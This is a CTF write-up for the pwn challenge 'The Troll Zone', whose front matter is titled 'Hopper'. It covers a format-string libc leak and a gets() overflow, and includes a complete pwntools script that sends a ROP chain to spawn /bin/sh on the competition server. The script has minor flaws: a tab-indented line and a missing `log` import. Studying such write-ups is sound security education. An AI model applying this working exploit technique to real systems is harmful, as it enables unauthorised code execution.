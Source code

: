 ```yaml
---
title: Hopper
date: 2025-02-25 +05:30
author: kliprmimo
categories: [pwn]
tags: [gdb, rop]
---
```



# The Troll Zone
## Description
category: pwn\
solves: 43\
point value: 452
## Overview
The file we got is x86_64 binary \
![](attachments_md/kashi_checksec.png)

it does have very little protections enabled:\
`Partial RELRO` -  we can overwrite got entries\
`No canary found` - if there is buffer overflow we can overwrite return pointer without worrying about canary check triggering\
`NX enabled` - there is protection against execution of machine code placed on the stack\
`No Pie (0x400000)` - binary is always loaded at the same address in memory\
We also are provided libc file
## Exploitation plan
### Vulnerabilities
code decompiled by ida:\
![](attachments_md/kashi_main.png)\
![](attachments_md/kashi_flag.png)\
there are two vulnerabilities in this code:
- `printf(s)` - using `printf` on buffer controlled by user is very dangerous, using `%p` `%x` (and many others) we can read values saved in registers `( _RSI, RDX, RCX, R8, R9_)` and on stack. We can also have arbitrary memory write using `%n` modifier.
- `gets(v4)` - gets function is dangerous function that should never be used. This function takes data to specified buffer with no length checking whatsoever which can lead to buffer overflow
### How can this be exploited?
What is usually required to *typical* ROP attack is some gadgets to set registers to correct values for [execve syscall]([Linux System Call Table for x86 64 · Ryan A. Chapman](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)) on `/bin/sh` to get reverse shell. Sadly there are not enough gadgets in vuln binary. Luckily there is plenty of such gadgets in libc. \
But in order to use this technique we need to know where in memory is libc loaded.\
We can use vulnerable `printf` function to find address of some function in libc (lack of Pie does not work here). Using that we can find base address at which libc is loaded at. From there we can use ROPgadget program to generate python script that prepares correct payload for this ROP\
`ROPgadget --binary libc.so.6 --ropchain`
## Exploitation

### getting libc address
On we run patched binary in gdb and break on vulnerable `printf` (to patch binary you can use [pwninit]([io12/pwninit: pwninit - automate starting binary exploit challenges](https://github.com/io12/pwninit)) or just patchelf)\
using `%<number>$p` we dump values from registers and stack.\
for my exploit i used value at `%17$p` which happened to be `0x7ffff7e0924a`\
![](attachments_md/kashi_gdb_libc.png)\
using `vmmap` command we can find base address of libc (locally)\
thanks to that we can calculate offset that leaked address is at (from the base of libc)\
`0x2724a=0x7ffff7e0924a-0x7ffff7de2000`\
We can use that offset when we leak the address in remote exploit. We need to subtract this offset from leaked address and we get remote libc base address. now we just need to use this value in payload from ROPgadget

```python
#!/usr/bin/env python3

from pwn import context, process, remote, gdb, args, ELF
from struct import pack

context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]

addr = "kashictf.iitbhucybersec.in"
port = 1337
elf = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
context.binary = elf
libc = elf.libc

gdbscript = '''
    tbreak main
    '''.format(**locals())


def conn(argv=[], *a, **kw):
    if args.LOCAL:
        r = process([elf.path])
        if args.GDB:
            return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        r = remote(addr, port)

    return r


leaked_offset = 0x7ffff7e0924a-0x7ffff7de2000


def main():
    log.info('Starting')

    r = conn()
    r.recvuntil(b'What do you want?')
    r.sendline(b'%17$p')
    r.recvuntil(b"0x")
    ptr = r.recvuntil(b"\n")
    ptr = ptr[:-1].decode()
    ptr = int(ptr, 16)
	log.info(f'Leaked addres {hex(ptr)}')

    libc_base = ptr - leaked_offset
    log.info(f'Got libc base {hex(libc_base)}')
    
    ### Output of ROPgadget
    p = b'a' * 40
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c0)  # @ .data
    p += pack('<Q', libc_base + 0x000000000003f197)  # pop rax ; ret
    p += b'/bin//sh'
    p += pack('<Q', libc_base + 0x00000000000353ac)  # mov qword ptr [rdx], rax ; ret
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000af985)  # xor rax, rax ; ret
    p += pack('<Q', libc_base + 0x00000000000353ac)  # mov qword ptr [rdx], rax ; ret
    p += pack('<Q', libc_base + 0x00000000000277e5)  # pop rdi ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c0)  # @ .data
    p += pack('<Q', libc_base + 0x0000000000028f99)  # pop rsi ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000af985)  # xor rax, rax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x0000000000026428)  # syscall
    r.sendline(p)

    r.interactive()


if __name__ == "__main__":
    main()

```
Combining quite lengthy outpout of `ROPgadget` with our calculated libc address we get this exploit, that gives us reverse shell! \
![](attachments_md/kashi_flag.png)\
\
flag: `KashiCTF{did_some_trolling_right_there_3hbM6wHf}`
